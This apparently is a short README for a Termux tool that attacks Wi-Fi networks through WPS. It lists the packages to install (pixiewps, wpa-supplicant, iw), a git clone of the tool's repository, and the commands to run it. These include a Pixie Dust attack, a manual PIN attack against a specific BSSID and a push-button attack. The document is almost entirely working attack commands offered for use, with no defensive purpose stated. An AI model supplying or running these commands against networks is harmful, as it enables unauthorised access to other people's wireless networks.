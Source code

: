 # Wi-Fi PassWord only WPA2 HACK

pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

pkg install pip

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/PS.py -i wlan0 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234

sudo python3 ps.py -i wlan0 --pbc
